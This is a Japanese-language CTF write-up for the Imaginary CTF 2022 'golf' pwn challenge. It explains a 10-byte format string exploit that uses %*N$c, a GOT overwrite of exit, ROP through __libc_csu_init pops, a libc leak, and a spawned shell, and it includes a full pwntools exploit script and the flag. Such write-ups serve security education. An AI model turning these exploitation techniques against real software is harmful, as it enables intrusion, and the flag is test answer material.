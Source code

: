 +++
title = "Imaginary CTF 2022 - golf"
date = 2022-07-19

[taxonomies]
tags = ["CTF", "Writeup", "Pwn", "FSB"]
+++

## TL;DR

- ペイロードの長さは十分だが、FSBに使える部分は小さい
- アスタリスクを指定子に利用して長い出力を短い書式で実現し、GOT Overwriteする
- `__libc_csu_init`にある大量のpopを利用してFSBペイロード部分を無視してからROPを行う

## Writeup

定番のchecksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

ソースコードが添付されているが無駄に難読化されているのでGhidraのデコンパイル結果を貼ると次のようになっている。

```c
void main(void)

{
  size_t sVar1;
  long in_FS_OFFSET;
  char local_118 [264];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  fgets(local_118,0x100,stdin);
  sVar1 = strlen(local_118);
  if (sVar1 < 0xb) {
    printf(local_118);
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

重要な点は以下

- `local_118`に対して256バイトの書き込みが出来る
- `printf(local_118)`があるので自明なFSBが存在する
- ところが、`strlen(local_118)`が10以下でないと、この`printf`は呼ばれない
- 最後に`exit`が呼ばれているが、Partial RELROなのでGOT Overwriteが可能

明らかにGOT Overwriteでret2mainするような問題に思える。

ペイロードの長さ制限があるが、`strlen`はヌルバイトが現れるまでの長さを返すので、`fgets`でFSB用の書式文字列を最初に書いてからヌルバイトでパディングし、後続に値を書いておけばその値をFSBで利用できる。

問題は`printf(local_118)`で使える書式文字列はたったの10バイトである。よくあるFSBのように`%<addr>c%<num>$n`で`<addr>`に実行したいアドレスを入れて、`<num>`に`exit`のGOTに対応するスタックの位置を入れるようなペイロードでは10文字に収まらない。

そこで`%*<num>$c`を利用する、これは`num`に対応するスタックの値を書式文字列に展開するような形で利用される。例えば`%*7$c`で`7`に対応する場所に`114514`が入っていれば、この書式文字列は`%114514c`と同じであり、114514文字出力される。これを使ってペイロードの長さを短縮しGOT Overwriteを図る。

上書きするアドレスについてだが、この問題では`exit`が呼ばれた際の`rsp`は特にスタックの清掃を行った後のものではない。というわけで`exit`のGOTにROPガジェットを入れておけば、`local_118`をスタックとしてROPが出来る。但し、スタックの上の方にはFSBの書式文字列が入っているのでこれらをpopやらですっ飛ばす必要がある。

ここで[TSGCTF 2021 - coffee](https://project-euphoria.dev/problems/2022-06-14/)の事を思い出すと、先頭のFSBペイロードを無視するために`__libc_csu_init`内にある複数のpopを利用できる事がわかる。このガジェットはこの問題でも相変わらず使えるのでこれを使って前半にFSBのペイロード、後半にROPチェーンを書き込んだものをペイロードとする。

coffeeの方では`scanf`があったので簡単に追加の入力が行えたが、最初のペイロードを入力する時点ではlibcのアドレスがわからないので`fgets()`の第3引数に`stdin`を設定するのは難しい。よってlibc leakをしたらmainに戻って通常のプログラムで2回目の入力を行う。

以上を纏めると次のようなペイロードを構成した

1. `%*9$c%8$hn`で`exit`のGOTを書き換える
	1. `%*9$c`は0x12e6バイト出力するように9の位置のスタックを調整する、この値は前述の大量にpopするROPガジェットの下位2バイトである
	2. `%8$hn`は8の位置の値をアドレスとして、下位2バイトを書き換える、ここに`exit`のGOTを入れておく
2. ヌルバイトパディングを挟む
3. 1のペイロードで使うための値を入れる
4. popを複数回行うROPガジェットでpopされる分のパディングを加える
5. どこかのGOT(ここでは`fgets`を使った)を出力するROPチェーンを書いてlibc leakをする
6. mainに戻る

libc leakが完了したし、main内のプログラムでRIPが取れる事も確認したので後はやるだけなのだが、この問題ではlibcが配布されていない。というわけで複数の関数のGOTを出力して[libc-database](https://libc.rip/)に入れてlibcを特定した。

これで`system`と`"/bin/sh"`のアドレスがわかったので、先程と同様に`system("/bin/sh")`を実行するようなROPを組めば、シェルが取れる。

## Code

使ったROPガジェットがどの程度popするかわからないので適当にretを挟むという横着をしている。

```python
from pwn import remote, process, p64, ELF, u64
import sys


DEBUG = "-d" in sys.argv


if DEBUG:
    sc = remote("localhost", 13337)
    libc = ELF("/usr/lib/x86_64-linux-gnu/libc-2.31.so")
    input("[+] attach")
else:
    sc = remote("golf.chal.imaginaryctf.org", 1337)
    libc = ELF("./libc6_2.31-0ubuntu9.9_amd64.so")  # from https://libc.rip/



elf = ELF("./golf")

addrs = {
    "got_exit": 0x404038,
    "got_fgets": 0x404028,
    "got_setvbuf": 0x404030,
    "got_printf": 0x404020,
    "got_strlen": 0x404018,
    "plt_printf": elf.plt["printf"],
    "plt_fgets": elf.plt["fgets"],
    "pivot": 0x404800,
    "main": 0x40121b,
    "libc_fgets": libc.symbols["fgets"],
    "libc_system": libc.symbols["system"],
    "binsh": next(libc.search(b"/bin/sh\x00"))
}

rpg = {
    "ret": 0x4012f4,
    "pop_rdi": 0x4012f3,
    "pop_rsi_r15": 0x4012f1
}

if not DEBUG:
    # for PoW msg
    sc.recvline()

payload = b"%*9$c%8$hn"
pad = b"\x00" * (16 - len(payload))
payload += pad
payload += p64(addrs["got_exit"])
payload += p64(0x12e6)  # write 0x4012e6 to got_exit
payload += p64(rpg["ret"])
payload += p64(rpg["ret"])
payload += p64(rpg["ret"])
payload += p64(rpg["ret"])
payload += p64(rpg["pop_rdi"])
key = "got_fgets"
payload += p64(addrs[key])
payload += p64(addrs["plt_printf"])
payload += p64(rpg["ret"])
payload += p64(addrs["main"])

assert len(payload) < 256
sc.sendline(payload)

sc.recvuntil(b"\x03")
res = sc.recvuntil(b"\x7f")

leak = u64(res + b"\x00\x00")
print(hex(addrs["libc_fgets"]))
# libc_addr = leak - 0x82630
libc_addr = leak - addrs["libc_fgets"]

print(f"[+] libc: {hex(libc_addr)}")

payload2 = b"114514" + b"\x00\x00"
payload2 += p64(rpg["ret"])
payload2 += p64(rpg["ret"])
payload2 += p64(rpg["ret"])
payload2 += p64(rpg["ret"])
payload2 += p64(rpg["ret"])
payload2 += p64(rpg["ret"])
payload2 += p64(rpg["ret"])
payload2 += p64(rpg["ret"])
payload2 += p64(rpg["ret"])
payload2 += p64(rpg["pop_rdi"])
payload2 += p64(libc_addr + addrs["binsh"])
payload2 += p64(libc_addr + addrs["libc_system"])

sc.sendline(payload2)

sc.interactive()
```

## Flag

`ictf{useless_f0rmat_string_quirks_f0r_days_9b5d191f}`

## References

- [libc-database](https://libc.rip/)
